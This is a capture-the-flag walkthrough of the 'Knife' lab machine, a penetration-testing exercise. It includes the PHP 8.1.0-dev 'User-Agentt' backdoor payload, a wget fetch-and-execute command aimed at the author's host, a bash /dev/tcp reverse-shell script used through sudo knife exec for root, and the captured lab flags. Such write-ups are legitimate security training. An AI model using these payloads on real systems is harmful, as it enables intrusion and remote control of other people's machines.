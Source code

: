 # Knife

export IP=10.10.10.242

# Solution

Let's start with the usual. An nmap scan
```bash
cmd: sudo nmap -sC -sV -oN nmap/initial $IP

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
```

While i do other stuff, lets do an all port scan in the background ! **UPDATE**: no further results found <br>

From the **Wappalyzer** firefox extension we can see some things
- apache 2.4.41 and Ubuntu (as seen in the nmap scan)
- Php 8.1.0

The page source code has nothing intersting <br>

Lets do some fuzzing !! 

```bash
cmd: feroxbuster -u http://$IP -w /usr/share/seclists/Discovery/Web-Content/big.txt -t 80 -o fuzz/big.log

# nothing special (three 403 pages)
# with raft-medium-words (more pages, same importance)
# vhosts (nothing)
```

Since i got nowhere i checked the requests being made with burpsuite and found the php version to be a bit different
```sql
X-Powered-By: PHP/8.1.0-dev
```

The **-dev** made my suspicions rise because usually you dont use dev branches in production because it contains functionalities that can be a problem <br>

With a bit of googling ("php 8.1.0-dev"), got what we needed in the first link ([packet storm](https://packetstormsecurity.com/files/162749/PHP-8.1.0-dev-Backdoor-Remote-Command-Injection.html)) 
```s
PHP 8.1.0-dev Backdoor Remote Command Injection
```

Seems that there's a backdoor by using the following header and the corresponding piece of code (which triggers the RCE via evaluating a string)
```bash 
# payload
"User-Agentt":"zerodiumsystem(\""+args.cmd+"\");"

# bug
 if (strstr(Z_STRVAL_P(enc), "zerodium")) {
    zend_try {
        zend_eval_string(Z_STRVAL_P(enc)+8, NULL, "REMOVETHIS: sold to zerodium, mid 2017");
```

Testing the exploit
```bash
cmd: python exp.py -u http://$IP -c whoami
[+] Results:
james

# Was unable to exec a reverse shell directly, so pulled a script from my local machine and executed it
cmd: python exp.py -u http://$IP -c 'wget http://10.10.16.26/bitch.sh -O /dev/shm/bitch.sh && chmod +x /dev/shm/bitch.sh && /dev/shm/bitch.sh'
```

Anddd, hackerman, I'm in!

```bash
cmd: whoami && id
james
uid=1000(james) gid=1000(james) groups=1000(james)

cmd: cat ~/user.txt
# FLAG: 2e6b8be9d55f2c541383e1ae04d957fd

cmd: sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife

cmd: ls -la /usr/bin/knife
lrwxrwxrwx 1 root root 31 May  7 11:03 /usr/bin/knife -> /opt/chef-workstation/bin/knife
```

So, seems that we need to use this **chef-workstation** stuff to privesc to root ! Lets see what it does by executing <br>

It displayed a bunch of stuff (help). Checking the [documentation](https://docs.chef.io/workstation/knife/) i saw that there's an **exec** command 
```bash
"Description snippet" : Use the `knife exec` subcommand to execute Ruby scripts in the context of a fully configured Chef Infra Client. (..)
"Syntax:" knife exec SCRIPT (options)

# Note: In the page is also stated that shell commands in the %x[cmd] are possible within a script
```

Let just build a script and test it !
```ruby
# Script name: test.rb
%x[/bin/bash -c "bash -i >& /dev/tcp/10.10.16.26/1415 0>&1"]
```

And execute it
```bash
cmd (james): sudo /opt/chef-workstation/bin/knife exec ./test.rb
cmd (root): whoami 
root
cmd (root): cat ~/root.txt

# FLAG: 2cb0148ad6a1b559fc14c70cacb52f98
```